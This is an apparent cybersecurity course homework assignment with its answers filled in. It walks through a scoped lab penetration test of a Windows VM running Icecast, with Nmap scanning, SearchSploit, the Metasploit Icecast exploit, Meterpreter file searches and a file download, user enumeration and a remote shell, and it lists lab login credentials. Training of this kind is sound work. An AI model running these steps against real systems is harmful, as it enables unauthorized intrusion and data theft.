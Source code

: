 ## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.

- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.

#### Scope

- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.

- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 

- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.

- Since you've already been provided access to the network, OSINT won't be necessary.

#### Lab Environment

For this week's homework, please use the following VM setup:

- Attacking machine: Kali Linux `rot:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 

- [Report.docx](Resources/Report.docx)

### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer:  nmap -sV -O -v 192.168.0.20


2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

   - Run the SearchSploit commands to show available Icecast exploits.
    
     > Answer:  searchsploit icecast

3. Now that we know which exploits are available to us, let's start Metasploit:

   - Run the command that starts Metasploit:
   
     > Answer:  msfconsole


4. Search for the Icecast module and load it for use.

   - Run the command to search for the Icecast module:
     
     > Answer: msf5> search icecast


   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: use 0


5. Set the `RHOST` to the target machine.

   - Run the command that sets the `RHOST`:
     
     > Answer:  set RHOST 192.168.0.20

6. Run the Icecast exploit.

   - Run the command that runs the Icecast exploit.
     
     > Answer:  run

   - Run the command that performs a search for the `secretfile.txt` on the target.
     
     > Answer:  search -f secretfile.txt
  
 7. You should now have a Meterpreter session open.

    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: search -d C:\Users -f recipe*.txt


    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:


      > Answer: download C:\Users\IEUser\Documents\Drinks.recipe.txt


8. You can also use Meterpreter's local exploit suggester to find possible exploits.

   1. search post/multi/recon/local_exploit_suggester


   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.


#### Bonus


A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: use post/windows/gather/enum_logged_on_users


B. Open a Meterpreter shell. 

  > Answer: sessions 3 && shell

C. Run the command that displays the target's computer system information:

   > Answer:  sysinfo



---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
